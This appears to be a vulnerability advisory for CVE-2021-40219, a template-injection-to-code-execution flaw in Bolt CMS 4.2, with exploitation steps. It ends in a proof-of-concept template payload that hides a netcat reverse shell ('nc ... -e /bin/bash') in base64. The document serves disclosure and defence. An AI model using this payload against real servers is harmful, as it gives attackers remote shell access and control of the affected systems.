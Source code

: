 
<h1>CVE-2021-40219</h1>
```Bolt CMS ```

SSTI to Remote Code Execution


Reported by S1lv3r

```Description :```

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php, 
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

TemplateController.php line 25:
return $this->render($templates, []);

1- The authenticated user edit theme by going to file management -> view/edit themes

2- Inject our PoC payload that will run system command

3- Go to Edit Page then create new page and choose our malicious template

4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC


```Version :```
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

```Attack Type:```
Remote

```Impact :```
Remote Command Execution


```PoC : ```

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
```References:```
https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Frontend/TemplateController.php#L25 
